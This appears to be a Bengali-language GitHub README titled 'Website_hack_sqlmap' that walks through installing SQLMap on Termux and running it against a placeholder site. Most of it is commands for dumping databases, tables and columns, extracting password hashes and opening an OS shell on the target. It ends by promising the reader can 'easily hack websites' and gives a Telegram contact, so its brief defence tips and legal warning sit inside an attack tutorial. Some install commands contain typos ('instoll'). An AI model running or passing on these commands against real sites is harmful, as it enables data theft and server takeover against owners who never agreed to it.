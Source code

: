# Website_hack_sqlmap


### **Termux-এ SQLMap ব্যবহারের সম্পূর্ণ গাইডলাইন**  

Termux-এ **SQLMap** ব্যবহার করে SQL ইনজেকশন পরীক্ষা করা সহজ, তবে এর জন্য কিছু সেটআপ করতে হবে।  

---

## **1️⃣ Termux-এ SQLMap ইনস্টলেশন**  

### **🔹 ধাপ 1: Termux আপডেট করুন**  
```bash
pkg update && pkg upgrade -y
```

### **🔹 ধাপ 2: প্রয়োজনীয় প্যাকেজ ইনস্টল করুন**  
```bash
pkg install python -y
pkg instoll python2 -y
pkg instoll git -y
```

### **🔹 ধাপ 3: SQLMap ক্লোন করুন**  
```bash
git clone https://github.com/sqlmapproject/sqlmap.git
```

### **🔹 ধাপ 4: SQLMap ফোল্ডারে যান**  
```bash
cd sqlmap
```

### **🔹 ধাপ 5: SQLMap রান করুন**  
```bash
python sqlmap.py --help
```

---

## **2️⃣ SQLMap ব্যবহারের মূল কমান্ড**  

### **🔹 1. SQL ইনজেকশন চেক করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" --dbs
```
**👉 এটি টার্গেট ওয়েবসাইটে SQL ইনজেকশন আছে কিনা তা পরীক্ষা করবে এবং ডাটাবেস লিস্ট দেখাবে।**  

---

### **🔹 2. নির্দিষ্ট ডাটাবেসের টেবিল লিস্ট বের করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" -D database_name --tables
```

---

### **🔹 3. নির্দিষ্ট টেবিলের কলাম লিস্ট বের করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns
```

---

### **🔹 4. নির্দিষ্ট কলাম থেকে তথ্য বের করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" -D database_name -T table_name -C column1,column2 --dump
```

---

### **🔹 5. সম্পূর্ণ ডাটাবেসের তথ্য বের করা**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" --dump-all
```

---

### **🔹 6. লগইন পাসওয়ার্ড বের করা**  
```bash
python sqlmap.py -u "http://target.com/login.php" --passwords
```

---

### **🔹 7. ওয়েবসাইটে শেল (Shell Access) নেওয়া**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" --os-shell
```

---

## **3️⃣ Termux-এ SQLMap দিয়ে গভীর স্ক্যান করা**  

### **🔹 1. ওয়েবসাইটের ইনজেকশন ধরার জন্য ডিপ স্ক্যান**  
```bash
python sqlmap.py -u "http://target.com/page.php?id=1" --level=5 --risk=3 --dbs
```
**👉 `--level=5` এবং `--risk=3` ব্যবহার করলে গভীরভাবে SQL ইনজেকশন পরীক্ষা করা যাবে।**  

---

## **4️⃣ প্রতিরোধ ব্যবস্থা:**  
✅ **Prepared Statements ব্যবহার করুন**  
✅ **User Input Validation করুন**  
✅ **WAF (Web Application Firewall) ব্যবহার করুন**  
✅ **ডাটাবেসের অপ্রয়োজনীয় পারমিশন বন্ধ করুন**  

---

## **⚠️ সতর্কতা:**  
❌ **SQLMap অন্যের অনুমতি ছাড়া ব্যবহার করা আইনত অপরাধ।**  
❌ **শুধুমাত্র সিকিউরিটি টেস্টিং ও লার্নিং পারপাসের জন্য ব্যবহার করুন।**  

---

## **🔹 শেষ কথা**  
Termux-এ SQLMap সেটআপ ও ব্যবহারের এই গাইড অনুসরণ করলে আপনি সহজেই 
website hack করতে পারবেন। 
যদি আরও কিছু জানতে চান যোগাযোগ করতে পারেন 
Telegram: t.me/Romzan_99 
